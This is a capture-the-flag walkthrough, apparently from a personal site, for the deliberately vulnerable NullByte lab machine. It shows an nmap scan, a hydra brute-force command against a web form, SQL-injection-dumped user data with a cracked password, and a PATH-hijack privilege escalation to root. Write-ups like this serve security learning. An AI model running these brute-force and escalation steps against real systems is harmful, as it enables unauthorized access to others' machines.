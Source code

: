 ```yaml
---
categories: [Proving Grounds Play, Walkthrough]
tags: [PrivEsc]
---
```


Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled.png)

```bash
IP : 10.0.2.32
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/NullByte]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.32
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 09:44 IST
Nmap scan report for 10.0.2.32
Host is up (0.0053s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http?
|_http-title: Null Byte 00 - level 1
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44254/tcp6  status
|   100024  1          56237/udp   status
|   100024  1          57300/tcp   status
|_  100024  1          59382/udp6  status
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 163013d9d55536e81bb7d9ba552fd744 (DSA)
|   2048 29aa7d2e608ba6a1c2bd7cc8bd3cf4f2 (RSA)
|   256 6006e3648f8a6fa7745a8b3fe1249396 (ECDSA)
|_  256 bcf7448d796a194876a3e24492dc13a2 (ED25519)
57300/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:5C:97:BB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%202.png)

Now when I downloaded this ⬆️ eye image I recon over it through exiftool and I found this >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%203.png)

Now When I used this string as a web Directory I got this >>

 

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%204.png)

Source Code ⬇️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%205.png)

Now I have to brute-force the keys to get the exact one >>

```bash
sudo hydra 10.0.2.32 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -P /usr/share/wordlists/rockyou.txt -la
```

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%206.png)

After Entering this >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%207.png)

I think this data processing workes from mysql so let’s try sqlmap now >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%208.png)

```sql
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+
```

Lets crack this password >>

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2010.png)

```bash
Credentials >>
ramses : omega
```

Lets SSH now ⤵️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2011.png)

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2012.png)

Now I think ps command is executed here os lets run sh instead of ps on procwatch file →

So  I have to change the Environment variable and include /tmp so that it can execute the sh directory which is copied in tmp directory →

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2013.png)

Now let’s run `./procwatch` ⬇️

![Untitled](/Vulnhub-Files/img/NullByte/Untitled%2014.png)

```bash
# cat proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats. 
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com

USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----

# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
    link/ether 08:00:27:5c:97:bb brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.32/24 brd 10.0.2.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe5c:97bb/64 scope link 
       valid_lft forever preferred_lft forever
# id    
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)
#
```